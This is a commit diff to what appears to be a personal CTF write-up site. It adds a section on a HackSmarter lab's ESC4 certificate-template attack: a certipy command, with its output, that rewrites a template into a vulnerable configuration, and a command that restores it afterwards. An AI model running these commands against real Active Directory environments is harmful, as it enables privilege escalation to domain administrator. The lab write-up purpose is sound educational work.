

Before and after one commit to p3ta00/p3ta00.github.io, a Jekyll site: the page built from _ctf/hacksmarter-404bank.md, in a window 1280 px wide and 1400 px high, scrolled down 28571 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 29339 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Add certipy -write-default-configuration alternative for ESC4
Document the correct certipy v5 flag for template modification
alongside the manual LDAP approach.

Co-Authored-By: Claude Opus 4.6 <noreply@anthropic.com>

````diff
--- a/_ctf/hacksmarter-404bank.md
+++ b/_ctf/hacksmarter-404bank.md
@@ -745,11 +745,11 @@ The svc.services account has **WriteOwner**, **WriteDACL**, and **WriteProperty*
 
 ### Modifying the Certificate Template
 
-The template has two protections preventing exploitation:
-- `Requires Manager Approval: True` (PendAllRequests flag)
-- `Authorized Signatures Required: 1`
+The template has two protections preventing direct exploitation:
+- `Requires Manager Approval: True` (PendAllRequests enrollment flag)
+- `Authorized Signatures Required: 1` (msPKI-RA-Signature)
 
-Certipy's template modification command did not produce the expected results, so we modify the template directly via LDAP:
+Since svc.services has WriteDACL and WriteProperty on the template, we can modify these attributes directly. Initial attempts with `certipy template` without the correct flags did not produce the expected changes, so we wrote a Python script using ldap3 to modify the template attributes directly:
 
 ```python
 import ldap3
@@ -909,6 +909,44 @@ Administrator        : [NT HASH]           → Certificate abuse via Vuln-ESC4
 
 ---
 
+## Alternative: Certipy Template Modification
+
+After further research, I discovered that Certipy v5 supports the `-write-default-configuration` flag for the `template` subcommand. This replaces the template's configuration with a default vulnerable one in a single command, eliminating the need for the manual LDAP script above:
+
+```
+Exegol > certipy template -dc-ip 10.1.152.151 -u svc.services -p '[REDACTED]' -template Vuln-ESC4 -target DC-404.404finance.local -write-default-configuration
+Certipy v5.0.4 - by Oliver Lyak (ly4k)
+
+[*] Saving current configuration to 'Vuln-ESC4.json'
+[*] Wrote current configuration for 'Vuln-ESC4' to 'Vuln-ESC4.json'
+[*] Updating certificate template 'Vuln-ESC4'
+[*] Replacing:
+[*]     nTSecurityDescriptor: ...
+[*]     flags: 66104
+[*]     pKIDefaultKeySpec: 2
+[*]     pKIKeyUsage: b'\x86\x00'
+[*]     pKIMaxIssuingDepth: -1
+[*]     pKICriticalExtensions: ['2.5.29.19', '2.5.29.15']
+[*]     pKIExpirationPeriod: b'\x00@9\x87.\xe1\xfe\xff'
+[*]     pKIOverlapPeriod: b'\x00\x80\xa6\n\xff\xde\xff\xff'
+[*]     pKIExtendedKeyUsage: ['1.3.6.1.5.5.7.3.2']
+[*]     msPKI-Enrollment-Flag: 0
+[*]     msPKI-Private-Key-Flag: 16
+[*]     msPKI-Certificate-Application-Policy: ['1.3.6.1.5.5.7.3.2']
+Are you sure you want to apply these changes to 'Vuln-ESC4'? (y/N): y
+[*] Successfully updated 'Vuln-ESC4'.
+```
+
+This approach automatically saves the original configuration to `Vuln-ESC4.json` for later restoration, overwrites the template with a permissive default configuration (removing manager approval, signature requirements, and restrictive ACLs), and enables Client Authentication EKU. After the modification, the standard `certipy req` and `certipy auth` commands work as documented above to obtain the Administrator certificate and NT hash.
+
+To restore the template after exploitation:
+
+```bash
+certipy template -dc-ip 10.1.152.151 -u svc.services -p '[REDACTED]' -template Vuln-ESC4 -target DC-404.404finance.local -configuration Vuln-ESC4.json
+```
+
+---
+
 ## References
 
 - [HackTricks - Kerberoast](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast)
````
